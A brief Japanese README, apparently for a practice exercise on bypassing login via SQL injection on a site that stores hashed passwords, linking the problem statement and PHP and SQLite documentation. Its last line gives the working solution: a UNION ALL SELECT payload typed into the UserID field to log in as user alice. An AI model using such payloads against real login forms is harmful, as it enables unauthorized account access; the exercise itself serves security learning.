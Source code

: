 # try_SQL_inj

## パスワードがハッシュ値で保存されているサイトのSQLインジェクションによる認証回避の練習問題

- [問題文](https://qiita.com/ockeghem/items/787f74801a24e1fc6960)
- [password_verify](https://www.php.net/manual/ja/function.password-verify.php)
- [3. Literal Values(Constants)](https://www.sqlite.org/lang_expr.html)

- UserID: `' UNION ALL SELECT id, 'admin', password, email FROM users WHERE userid = 'alice`
